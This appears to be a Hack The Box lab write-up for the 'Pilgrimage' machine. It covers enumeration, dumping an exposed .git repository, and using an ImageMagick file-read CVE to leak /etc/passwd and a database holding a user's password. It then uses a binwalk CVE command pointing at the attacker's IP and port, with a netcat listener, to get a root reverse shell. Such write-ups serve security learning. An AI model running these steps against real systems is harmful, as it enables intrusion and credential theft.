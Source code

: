 ```yaml
---
type: box
finished: "true"
writeup: "true"
---
```

![pilgrimage](images/Pilgrimage.png)
# Enumeration
with the nmap command `nmap -p- -sV -sC 10.10.11.219` we got this result:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
So we know there's a SSH server, and a http server running nginx 1.18.0.
Going to the website we come to this page:
![website](images/website.png)

We have the option to log in, register or upload an image where it shows the shrunk version of that image. If we make an account and then log in we get a "Dashboard" tab that allows us to see all of the previous images that we have uploaded to the website.

# Git-Dumping
Here I was stuck for a while trying a bunch of stuff. Which is when I went back to enumeration. **Always go back to enumeration if you get stuck, don't tunnel vision because maybe you're missing something.** In my case I was missing an open .git repo on the 80 server. Since we didn't have the IP redirect link in our /etc/hosts nmap gave us this output `http-title: Did not follow redirect to http://pilgrimage.htb/` However if we run `nmap -p 80 -sV -sC 10.10.11.219` again, however this time only on port 80 while having the redirect in out /etc/hosts we get this output:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-title: Pilgrimage - Shrink Your Images
```

Now we know for sure there is a /.git/ folder on the server. Now we can use a tool like [Git dumper](https://github.com/arthaud/git-dumper)to extract all of the information from the git folder on to our own machine and take a look at the source code.

At first I thought there was a problem with the code, however everything seems sanitized. One thing we can keep in note for later though is that the databased is stored in `/var/db/pilgrimage` as we see in the code `$db = new PDO('sqlite:/var/db/pilgrimate');`.
![login](images/login.png)
But what is this `/var/ww/pilgimage.htb/magik`? Taking a close look at it by going into the git folder and going `./magik -version` we get this output:

```
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Googling `ImageMagick 7.1.0-49` I came across [a vulnerability with ImageMagick 7.1.0](https://www.metabaseq.com/imagemagick-zero-days/) This vulnerability was is based upon the -resize command within Magick, exactly what we are looking for. If we insert arbitrary code into the image, give it to Magick and then redownload it, we will get the output into the resized image. Let's try it first by making it print out `/etc/password` of the server with this script: **[CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)**.

# ARBITRARY REMOTE LEAK with [CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)

When we did `cargo run "/etc/passwd"` on the file we got an image with code injected into it. When we upload it to the server and download the "shrunken" version of it we can run `identify -verbose {image}` to get the outputting hex values of our input. Inputting it to something like [CyberChef](https://gchq.github.io/CyberChef/) and converting it from hex to ascii we get this output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Just for the fun of it I tried to also get the value of `/etc/shadow` however that did not get us any result because Magick is not allowed to read `/etc/shawdow`. What we can try is to **get the content of the `/var/db/pilgrimage` database as we saw from earlier.** Doing the same thing as earlier we get a bunch of hex values. Plugging that into cyberchef allows us to see the contents of it.

In a bunch of null values we get the sql code:
![table](images/table.png)

And *much* lower down we see this:
![usernames](images/usernames.png)

Our own account is which is the *creatively* named `asdfasd` with the password `asdf`.
More importantly we see the user `emily` from before with the password `abigchonkyboi123`. Classy.

With the knowledge that people use the same password everywhere, we can try to ssh into the machine with the username emily and password `abigchonkyboi123`.
![ssh](images/ssh.png)
**bingo**
Now we cat out the content of the user.txt.
# Privilege escalation with [CVE-2022-4510](https://www.exploit-db.com/exploits/51249)

Looking at the home directory we find some interesting files. Most notably pspy32 and binwalk_exploit.png. Looking at the pspy32 output we see that root is running something called `/sbin/malwarescan.sh`. Looking closer at that we see the following code:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

Here we see code being run every time something is changed in the `/var/www/pilgrimage.htb/shrunk/` directory with the help of the `inotifywait` command. We also see `/usr/local/bin/binwalk -e` being run on every file every time a change is done in that directory. Let's take a look at the binwalk version on this machine.

```
emily@pilgrimage:~$ binwalk -h                                                          

Binwalk v2.3.2                                                                          Craig Heffner, ReFirmLabs                                                               https://github.com/ReFirmLabs/binwalk     
```

If we look up ```binwalk v2.3.2``` we find a remote code execution vulnerbility is in binwalk version 2.3.2. Luckily the [script from exploit database](https://www.exploit-db.com/exploits/51249) is already downloaded on the machine in the `/tmp/` folder.

So all we have to do is to write is `python3 /tmp/51249.py catt.png {YOUR_IP} {YOUR_PORT}` and then start a netcat listener on that port. You will then get an image called `binwalk_exploit.png` in your folder and all you have to do now is copy it over with `cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/` and boom.

![root](images/root.png)

# We're in (conclusion)
This is definitely the hardest box easy box I've done on hack the box. I was stuck on the first step for a long while, when I randomly decided to run the nmap scan again and saw the /.git/ directory. Everything was pretty good from there though. This is probably the best box I've done on HTB to date. I loved getting the user flag immensely. The root flag was a bit tricky, but learning to read the pspy32 output helped a ton.